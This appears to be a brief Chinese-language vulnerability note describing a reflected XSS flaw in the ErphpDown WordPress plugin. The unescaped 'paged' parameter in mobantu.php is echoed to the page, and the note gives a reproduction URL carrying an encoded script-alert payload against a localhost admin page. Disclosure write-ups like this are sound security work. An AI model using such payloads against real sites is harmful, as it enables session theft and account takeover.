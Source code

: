 ## ErphpDown插件反射型xss

在erphpdown/includes/mobantu.php文件中的erphp_admin_pagenavi方法中先是接收了get请求中的参数paged，最后在361行处直接输出在页面中，导致了反射型xss漏洞。

![1560842530366](C:\Users\DELL\Desktop\图片\image\S2-052\1560842530366.png)

![1560842559869](C:\Users\DELL\Desktop\图片\image\S2-052\1560842559869.png)

## 复现：

localhost/WordPress/wp-admin/admin.php?page=erphpdown%2Fadmin%2Ferphp-vip-items.php&paged=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

![1560842932807](C:\Users\DELL\Desktop\图片\image\S2-052\1560842932807.png)